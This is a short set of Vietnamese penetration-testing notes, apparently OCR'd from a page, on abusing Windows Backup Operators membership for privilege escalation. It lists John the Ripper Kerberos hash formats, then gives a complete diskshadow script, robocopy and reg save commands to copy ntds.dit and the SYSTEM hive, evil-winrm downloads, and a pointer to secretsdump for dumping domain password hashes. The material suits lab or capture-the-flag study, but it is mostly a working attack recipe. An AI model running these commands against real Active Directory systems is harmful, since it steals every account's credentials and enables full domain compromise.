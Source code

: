 # John the Ripper
- **Các options**:
    - --format=krb5tgs
    - --format=krb5asrep
---
# \#PriveSec Window method
## Backup Operators
```Bash
whoami /all
```
> [!important]
> 
> ```Bash
> BUILTIN\Backup Operators                   Alias            S-1-5-32-551 Mandatory group, Enabled by default, Enabled group
> SeBackupPrivilege             Back up files and directories  Enabled
> SeRestorePrivilege            Restore files and directories  Enabled
> ```
Đầu tiên, tạo một file **backup.txt** trên máy Linux
```Bash
set verbose onX
set metadata C:\Windows\Temp\meta.cabX
set context clientaccessibleX
set context persistentX
begin backupX
add volume C: alias cdriveX
createX
expose %cdrive% E:X
end backup
```
Dùng evil-winrm hoặc các phương thức mở shell khác, wmi
```Bash
mkdir C:\Temp
cd C:\Temp
upload backup.txt \#Nhớ điều hướng tới thư mục chứa backup.txt trước trên máy Linux
diskshadow /s backup.txt
robocopy /b E:\Windows\ntds . ntds.dit
reg save hklm\system c:\temp\system
dir
download ntds.dit
download system
```
Sau đó có thể dùng impacket-secretsdump để dump ra hash.